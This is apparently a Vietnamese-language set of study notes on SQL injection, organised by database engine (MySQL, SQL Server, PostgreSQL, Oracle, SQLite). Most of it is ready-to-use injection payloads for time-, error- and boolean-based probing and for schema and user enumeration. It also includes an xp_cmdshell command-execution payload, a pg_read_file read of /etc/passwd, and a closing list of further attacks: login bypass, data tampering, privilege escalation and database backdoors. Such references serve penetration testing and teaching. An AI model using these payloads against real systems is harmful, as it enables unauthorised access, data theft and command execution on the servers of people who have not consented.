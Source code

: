 
1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

# Phát hiện SQL Injection trên các loại CSDL

Mỗi hệ quản trị cơ sở dữ liệu (DBMS) có cú pháp và hàm riêng.  
Dưới đây là một số kỹ thuật phát hiện đặc trưng:

## MySQL
### Dấu hiệu nhận diện
- Error messages chứa "MySQL", "mysqli_", hoặc "Warning: mysql_"
- Hỗ trợ comment style `--`  và `#`
- Có thể stack queries với `;`

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND SLEEP(5)-- 
' UNION SELECT SLEEP(5)-- 
```

**Error-based**
```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION(), 0x7e))-- 
' AND UPDATEXML(1, CONCAT(0x7e, DATABASE(), 0x7e), 1)-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(VERSION(),1,1)='5'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), DATABASE(), USER()-- 
' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

## SQL Server (MSSQL)
### Dấu hiệu nhận diện
- Error messages chứa "Microsoft OLE DB", "SQLSTATE", hoặc "Microsoft SQL Server"
- Hỗ trợ `@@` variables
- Có thể sử dụng `xp_cmdshell` để thực thi lệnh hệ thống

### Kỹ thuật phát hiện
**Time-based**
```sql
'; WAITFOR DELAY '00:00:05'-- 
' AND 1=(SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5)-- 
```

**Error-based**
```sql
' AND 1=CONVERT(INT, @@VERSION)-- 
' UNION SELECT NULL, NULL WHERE 1=CONVERT(INT, DB_NAME())-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(@@VERSION,1,1)='M'-- 
```

**Information gathering**
```sql
' UNION SELECT @@VERSION, DB_NAME(), SYSTEM_USER-- 
' UNION SELECT name FROM master..sysdatabases-- 
' UNION SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')-- 
```

**Command execution (nếu có quyền)**
```sql
'; EXEC xp_cmdshell 'whoami'--
```

## PostgreSQL
### Dấu hiệu nhận diện
- Error messages chứa "PostgreSQL", "psql", hoặc "pg_"
- Hỗ trợ `::` casting operator
- Case-sensitive string comparisons

### Kỹ thuật phát hiện
**Time-based**
```sql
'; SELECT PG_SLEEP(5)-- 
' AND 1=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000))-- 
```

**Error-based**
```sql
' AND CAST(VERSION() AS INT)-- 
' UNION SELECT CAST(CURRENT_DATABASE() AS INT)-- 
```

**Boolean-based**
```sql
' AND SUBSTR(VERSION(),1,10)='PostgreSQL'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), CURRENT_DATABASE(), CURRENT_USER-- 
' UNION SELECT schemaname FROM pg_tables-- 
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- 
```

**File operations (nếu có quyền)**
```sql
' UNION SELECT pg_read_file('/etc/passwd')--
```

## Oracle
### Dấu hiệu nhận diện
- Error messages chứa "ORA-", "Oracle", hoặc "OracleDriver"
- Yêu cầu `FROM dual` cho single value queries
- Sử dụng `||` để concatenate strings

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND (SELECT COUNT(*) FROM ALL_USERS T1, ALL_USERS T2, ALL_USERS T3)>0-- 
' UNION SELECT DBMS_PIPE.RECEIVE_MESSAGE('x',5) FROM DUAL-- 
```

**Error-based**
```sql
' AND CAST((SELECT BANNER FROM V$VERSION WHERE ROWNUM=1) AS INT)=1-- 
' UNION SELECT TO_CHAR(1/0) FROM DUAL-- 
```

**Boolean-based**
```sql
' AND SUBSTR(BANNER,1,6)='Oracle' AND '1'='1'-- 
```

**Information gathering**
```sql
' UNION SELECT BANNER, NULL FROM V$VERSION-- 
' UNION SELECT USERNAME, NULL FROM ALL_USERS-- 
' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES-- 
```
## SQLite

### Dấu hiệu nhận diện
- Error messages chứa "SQLite", "sqlite3", hoặc "database is locked"
- Không hỗ trợ stored procedures
- Sử dụng `sqlite_master` table

### Kỹ thuật phát hiện
**Time-based (limited options)**
```sql
' AND RANDOM()=RANDOM()-- 
```

**Error-based**
```sql
' AND CAST(SQLITE_VERSION() AS INT)=1-- 
```

**Boolean-based**
```sql
' AND SUBSTR(SQLITE_VERSION(),1,1)='3'-- 
```

**Information gathering**
```sql
' UNION SELECT SQLITE_VERSION(), NULL-- 
' UNION SELECT sql, name FROM sqlite_master WHERE type='table'-- 
' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
```


# Ứng dụng SQLi ngoài việc thu thập dữ liệu

Ngoài việc lấy dữ liệu nhạy cảm, SQLi còn cho phép kẻ tấn công:

- **Bypass xác thực** → Đăng nhập không cần mật khẩu.  
- **Chèn, sửa hoặc xóa dữ liệu** → Làm thay đổi hoặc mất mát dữ liệu.  
- **Chiếm quyền điều khiển hệ thống** → Kết hợp với lỗ hổng khác để thực thi lệnh hệ điều hành.  
- **Phát hiện cấu trúc database** → Liệt kê bảng, cột, user DB.  
- **Leo thang đặc quyền** → Nếu tài khoản DB có quyền cao, có thể chiếm toàn bộ hệ thống.  
- **Tạo backdoor trong DB** → Cài đặt trigger hoặc stored procedure độc hại để duy trì truy cập.  
